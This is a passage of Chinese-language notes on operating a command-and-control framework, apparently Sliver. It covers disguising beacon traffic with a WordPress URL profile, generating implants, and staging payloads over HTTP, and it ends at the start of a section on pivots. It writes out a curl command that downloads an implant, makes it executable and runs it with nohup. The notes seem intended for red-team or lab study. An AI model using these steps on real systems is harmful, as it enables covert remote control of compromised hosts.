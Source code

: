 [https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/URLs/urls-wordpress-3.3.1.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/URLs/urls-wordpress-3.3.1.txt)

然后依据这个创建c2profiles

```plain
c2profiles generate -f urls-wordpress-3.3.1.txt -n wordpress -
```

常用命令

```plain
查看当前已有的c2profiles
c2profiles

通过-C在生成beacon时指定c2profile
generate beacon -b localhost --skip-symbols --debug -j 1 -S 5 --os linux -C wordpress
```

# HTTP Payload staging
```plain
生成profile
profiles new beacon -b localhost --os linux --skip-symbols --debug profile_test

根据profile生成implant
profiles generate profile_test

设置implant对外暴露以便通过http下载
implants stage
```

然后通过`implants`命令查看implant的ID，然后通过curl可以去下载payload

```plain
curl http://localhost/test.yml?z=14274
```

也可以加密

```plain
根据profile生成implant，并且加密
profiles stage -c gzip profile_test
```

后续的stage实际上就是执行类似这样的操作

```plain
curl http://localhost/nothingtoseehere.yml?c=14274 --output nothingtoseehere && chmod u+x nothingtoseehere && nohup ./nothingtoseehere
```

# Pivots
pivots有两种，一种是TCP，另一种是命名管道，TCP适用所有平台，命名管道只能在windows

首先通过`use`连接到session，然后执行下面命令创建tcp
